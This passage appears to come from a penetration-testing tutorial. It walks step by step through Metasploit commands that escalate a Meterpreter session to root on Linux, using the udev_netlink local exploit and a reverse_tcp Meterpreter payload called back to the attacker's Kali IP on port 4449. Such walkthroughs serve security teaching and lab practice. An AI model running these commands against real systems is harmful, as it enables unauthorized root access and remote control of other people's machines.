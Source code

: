 Since we need to elevate privileges, we’ll run the following command to search for local privilege escalation exploits for linux.

```
search linux/local
```

After searching around a while, we find one that looks interesting: “exploit/linux/local/udev_netlink".

```
info exploit/linux/local/udev_netlink
```

Let’s select this exploit.

```
use exploit/linux/local/udev_netlink
```

Once again, examine the options for this exploit.

```
show options
```

We see that we need to define a session number. We’ll set the SESSION variable to our current running meterpreter session.

```
set SESSION <session_number>
```

Next, we need to select a payload. Once again, we’ll use a reverse_tcp meterpreter session.

```
set payload linux/x86/meterpreter/reverse_tcp
```

And examine options.

```
show options
```

We’ll set the payload options to our current IP address, and select a random port number.

```
set LHOST <kali_ip>
set LPORT 4449
```

And we’ll run our exploit:

```
run
```

If everything goes well, we should have a new Meterpreter session. Let’s see which user we are.

```
getuid
```

After running this command, we should see that we have the uid of 0. That means we now have root access to the system.
